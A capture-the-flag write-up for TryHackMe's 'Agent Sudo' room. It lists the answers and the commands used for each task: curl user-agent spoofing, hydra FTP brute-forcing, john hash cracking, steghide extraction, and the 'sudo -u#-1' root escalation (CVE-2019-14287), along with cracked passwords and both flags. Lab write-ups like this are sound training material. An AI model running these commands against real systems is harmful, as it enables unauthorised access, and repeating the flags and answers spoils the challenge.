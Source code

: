 Try Hack Me.
#Agent-Sudo

```
export IP=10.10.103.171
```

#Task 1 Author note

Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!

If you are stuck inside the black hole, post on the forum or ask in the TryHackMe discord.

1. Deploy the machine
```
NO answer needed
```

#Task 2 Enumerate

Enumerate the machine and get all the important information
 	

1. How many open ports?

```
3
```

3.How you redirect yourself to a secret page?

```
User-Agent  (curl http://$IP -H "User-Agent: C" -L)
```

3. What is the agent name?
```
Chris
```

#Task 3 Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

1. FTP password
```bash
crystal  (via hydra : hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://$IP)
```
	
2. Zip file password
```
alien (binwalk e pngfile,zip2john e num.zip>hash.txt,john hash.txt --wordlist=rockyou.txt AND unzipped with #7z e num.zip)
```
	
3. steg password
```
Area51 (from the message in above unzipped file..decoded a base64 string)
``` 	

4. Who is the other agent (in full name)?
```
james (steghide extract -sf jpgfile ,Got his name and password for chris login)
```	

5. SSH password
```
hackerrules!
```

#Task 4 Capture the user flag

You know the drill.

1. What is the user flag?
```
b03d975e8c92a7c04146cfa7a5a313c7 (from the ssh login as chris)
```
	
2. What is the incident of the photo called?
```
Roswell alien autopsy (scp james@$IP:/home/james/Alien_autospy.jpg . #To download the jpgfile to our system and searched it with google image search)
```

#Task 5 Privilege escalation

Enough with the extraordinary stuff? Time to get real.
 	

1. CVE number for the escalation 

(Format: CVE-xxxx-xxxx)
```
cve-2019-14287 (scp /home/safan/linpeas/linpeas.sh james@$IP:/dev/shm and through sudo -l command we got  "(ALL, !root) /bin/bash" and googled it)
```
	
2. What is the root flag?
```
b53a02f55b57d4439e3341834d70c062
(got the root privilege by CVE*** bug using this "sudo -u#-1 /bin/bash")
``` 	

3. (Bonus) Who is Agent R?
```
Deskel (with the message of root.txt)
```




